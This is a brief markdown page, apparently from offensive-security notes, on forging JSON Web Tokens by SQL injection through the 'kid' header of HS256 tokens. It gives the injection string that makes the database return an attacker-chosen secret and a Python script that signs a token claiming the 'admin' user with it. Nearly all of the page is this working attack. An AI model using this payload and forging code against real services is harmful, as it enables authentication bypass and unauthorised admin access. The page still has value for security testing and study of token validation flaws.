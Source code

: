 # SQL injection in HS256 encoded JWT KID

If a JWT uses the algorithm "HS256" and has a key identifier ("kid") that looks like a  
database identifier, attempt an SQL injection:  

```
{
  "alg":"HS256",
  "kid":"key1",
  "typ":"JWT"
}
```

Change the "kid" value to an injection: `aaa' union select 'bbb`  
and set the secret to be `bbb`.  

```python3
# python3
import jwt

# Fill in the header
header = {
        "typ":"JWT",
        "alg":"HS256",
        "kid":"aaa' union select 'bbb"
}

# Add your secret key
key = "bbb"

# Add the payload
payload = {
        "user":"admin",
}

print(jwt.encode(payload, key, algorithm="HS256", headers=header))
```
